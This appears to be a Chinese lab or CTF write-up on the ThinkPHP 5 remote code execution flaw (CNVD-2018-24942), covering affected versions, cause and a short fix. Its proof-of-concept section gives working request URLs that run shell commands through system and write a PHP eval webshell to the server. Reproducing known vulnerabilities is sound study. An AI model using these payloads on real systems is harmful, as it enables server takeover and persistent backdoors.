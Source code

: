## by xiaoyu

thinkphp-cnvd_2018_24942

# 前置知识

 ThinkPHP是一个免费开源的，快速、简单的面向对象的轻量级**PHP开发框架**，是为了**敏捷WEB应用开发**和简化企业应用开发而诞生的。ThinkPHP从诞生以来一直秉承简洁实用的设计原则，在保持出色的性能和至简的代码的同时，也注重易用性。

# 影响版本

ThinkPHP 5.*，<5.1.31

ThinkPHP <=5.0.23

# 漏洞原理

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

# 漏洞利用

1、访问页面

![image-20200824233505828](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20200824233505828.png)

2、构造路径与参数

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```

3、拿到flag

![image-20200824233524903](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20200824233524903.png)

4、POC

/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100

/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=pwd

/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=getshell.php&vars[1][]=%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%6c%6f%72%64%73%6b%79%27%5d%29%3b%20%3f%3e

# 漏洞分析

1、thinkphp目录结构

```
├─thinkphp              框架系统目录
│  ├─lang               语言文件目录
│  ├─library            框架类库目录
│  │  ├─think           Think类库包目录
│  │  └─traits          系统Trait目录
│  │
│  ├─tpl                系统模板目录
│  ├─base.php           基础定义文件
│  ├─convention.php     框架惯例配置文件
│  ├─helper.php         助手函数文件
│  └─logo.png           框架LOGO文件
```

2、Web入口

library/think/App.php

该漏洞主要因为php代码中route/dispatch模块没有对URL中的恶意命令进行过滤导致，在没有开启强制路由的情况下，能够造成远程命令执行，包括执行shell命令，调用php函数，写入webshell等。

# 修复建议

更新框架
